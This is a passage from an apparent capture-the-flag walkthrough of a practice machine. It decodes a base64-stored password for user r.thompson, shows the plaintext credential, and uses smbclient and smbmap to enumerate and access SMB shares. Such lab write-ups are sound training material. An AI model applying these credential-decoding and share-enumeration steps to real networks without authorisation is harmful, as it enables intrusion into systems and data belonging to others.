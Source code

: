The password is base64 encoded. So we decode to plain text.

```bash
echo "clk0bjVldmE=" | base64 -d; echo
rY4n5eva
```

> Password for User r.thompson
>
> __r.thompson:rY4n5eva__

With password in hand for r.thompson, lets check the share the user can access. This is done by using the tool Smbclient.


```bash
smbclient -L //10.10.10.182 -U r.thompson
Enter WORKGROUP\r.thompson's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk
        C$              Disk      Default share
        Data            Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
        
```

Also using the smbmap to check the shares that are accessible for the user r.thompson

```bash
smbmap -u r.thompson -p rY4n5eva -H 10.10.10.182

[+] IP: 10.10.10.182:445        Name: 10.10.10.182              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

From the above results, it is clear that r.thompson can access the share named __"Data"__

Using smbclient, lets login 

```bash
smbclient //10.10.10.182/Data -U r.thompson
Enter WORKGROUP\r.thompson's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 27 08:57:34 2020
  ..                                  D        0  Mon Jan 27 08:57:34 2020
  Contractors                         D        0  Mon Jan 13 07:15:11 2020
  Finance                             D        0  Mon Jan 13 07:15:06 2020
  IT                                  D        0  Tue Jan 28 23:34:51 2020
  Production                          D        0  Mon Jan 13 07:15:18 2020
  Temps                               D        0  Mon Jan 13 07:15:15 2020

                13106687 blocks of size 4096. 7793992 blocks available
```
